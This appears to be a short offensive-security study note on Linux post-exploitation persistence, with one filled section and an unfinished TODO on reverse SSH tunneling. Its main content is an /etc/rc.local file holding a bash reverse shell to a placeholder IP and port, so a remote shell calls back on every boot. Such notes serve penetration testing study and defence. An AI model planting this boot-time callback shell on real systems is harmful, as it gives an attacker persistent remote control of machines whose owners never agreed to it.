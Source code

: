# Living off the Land

## 01 - Callback Shell

```
$ cat /etc/rc.local
#!/bin/sh -e
/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
exit 0
```

## 02 - Reverse SSH Tunneling

TODO: Fill this info

---
## References

- [[Linux Post Exploitation Persistence References]]

- [[04 - Remote Port Forwarding|SSH: Remote Port Forwarding]]